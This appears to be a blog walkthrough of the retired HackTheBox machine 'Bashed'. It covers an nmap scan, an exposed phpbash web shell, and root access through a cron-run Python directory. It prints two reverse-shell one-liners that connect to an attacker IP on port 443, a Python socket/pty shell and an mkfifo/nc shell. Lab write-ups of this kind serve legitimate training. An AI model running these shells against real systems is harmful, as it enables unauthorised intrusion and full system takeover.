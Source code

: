 ```yaml
---
title: Bashed - HackTheBox Walkthrough
date: 2021-10-07 12:00:00 
categories: [HackTheBox,Linux]
tags: [sudo,cronjob]
img_path: /assets/img/HTB/Bashed/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Bashed` a retired machine by HackTheBox. Without further ado, let’s begin.

# Recon

## Nmap

As always, we'll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Wed Oct  6 08:58:58 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.230.238
Nmap scan report for 10.129.230.238
Host is up (0.12s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  6 08:59:29 2021 -- 1 IP address (1 host up) scanned in 30.63 seconds
```

The only port we get is 80 running http, I also ran a complete nmap scan to cover all ports but in this case I didn't get any other port.

## Port 80

![01-web](01-web.png)

It seems the developer test a semi-interactive web shell called `phpbash.php` on this machine.
Let's find it, running gobuster.

![02-gobuster](02-gobuster.png)

There some directories but the most interesting is `/dev`.

![03-dev](03-dev.png)

# Initial Foothold

Once we click on phpbash.php we get a semi-interactive web shell.

![04-phpbash](04-phpbash.png)

To obtain a reverse shell just need run the next command and a start a netcat listener on port 443.

```console
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
# Privilage Escalation
With `sudo -l` we discover that we can execute any command as the user `scriptmanager`, so we can run a shell with this user.

![05-sudo](05-sudo.png)

Doing some enumeration, to know if there any schedule script or other command that are running automatically, we'll use [pspy](https://github.com/DominicBreuker/pspy/releases), but first let's transfer this binary to the victim machine.

![06-python](06-python.png)

It looks root is executing every file with the python extension `.py` in the `/scripts` directory.

![07-pspy](07-pspy.png)

Once we are in that directory, we will insert a reverse shell  into a python file.

```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 443 >/tmp/f")
```

Like the screenshot below.

![08-shell](08-shell.png)

Let's start a netcat listener on port 443.

![09-root](09-root.png)

We are root!!!
That’s it for now guys. Until next time.
